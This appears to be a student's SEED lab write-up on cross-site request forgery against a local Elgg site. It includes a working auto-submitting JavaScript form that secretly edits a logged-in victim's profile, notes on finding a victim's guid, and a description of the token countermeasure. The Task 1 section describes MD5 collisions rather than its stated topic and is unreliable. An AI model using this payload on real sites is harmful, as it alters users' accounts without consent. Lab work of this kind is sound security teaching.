

# CS 4173 Lab 4
#### Cross-Site Request Forgery Attack Lab

## Prerequisites
Versions of software used listed here:
- Environment: SEEDUbuntu 16.04

## Task 1: Observing HTTP Request

In this task, we use the provided tool to generate two binary files which result in the same hash when using the MD5 hashing algorithm. By observing the output, we can see that the prefix is appended to the output binary as a 64 length block. There are 3 prefix files included: `63longprefix.txt`, `64longprefix.txt`, and `65longprefix.txt`. These were used to test the outputs when the prefix is a multiple of 64, less than a multiple of 64, or greater than a multiple of 64. 

## Task 2: CSRF Attack Using GET Request

In this task we will demonstrate a GET request attack to show how a GET request attack can be launched if the victim is directed to a malicious site. We can create a webpage in the directory for the csrflabattacker.com domain which has a hidden image with the `src` set to the URL we wish to attack and the GET request will be triggered automatically. The image tag used is the following: 

```html

```

## Task 3: CSRF Attack Using POST Request

In this task we will demonstrate how a POST request can also be used to perform attacks against servers which are not protected against it. Using the same directory, we can modify the page to contain a script that will run and auto invoke itself upon loading the page. The script will create a form with a field to set the `description` field and the `accesslevel` for that field along with the `guid` of the target. The elgg token security has been disabled so the attack does not require those. When Alice reaches this page, her logged in session cookie is still in the browser and will allow the request to be sent and modifying her profile. 



The script on the page consists of the following:

```js
function forge_post() {
    var fields;
    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value ='2'> ";
    fields += "<input type='hidden' name='description' value='<p>Boby is my Hero</p>'>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";

    fields += "<input type='hidden' name='guid' value='42'>";
    // Create a <form> element.
    var p = document.createElement("form");
    // Construct the form
    p.action = "http://www.csrflabelgg.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    // Append the form to the current page.
    document.body.appendChild(p);
    // Submit the form
    p.submit();
}
// Invoke forge_post() after the page is loaded.
window.onload = function () { forge_post(); }
```

### Question 1

Boby cannot retrieve Alice's `guid` by logging into her account, but fortunately he does not need to. By visiting Alice's page as a visitor, he can inspect the "Add friend" button which contains her `guid` in the GET request URL.

### Question 2

It is possible to retrieve the `guid` of anyone who visits the page, assuming they are logged in. One only needs to know their profile username in order to view their page and retrieve the `guid` from the "Add friend" button. This can be achieved by sending a malicious GET request to `http://www.csrflabelgg/profile` which will redirect to the logged in user's page which can be found in the response headers. The attacker can then pull that URL and retrieve the `guid`.

## Task 4: Implementing a countermeasure for `Elgg`

In this task, we re-enable the disabled CSRF countermeasures and retry the attacks. They now no longer work because the server now expects two extra values, the `__elgg_ts` and `__elgg_token` values in both the GET and POST for these tasks. There is no way for the attacker to know these values before hand since they are generated each time the page is loaded, and is different every time the page is visited. As long as the algorithm used to generate these values are secure enough, the attacker will not be able to predict these values and launch a CSRF attack.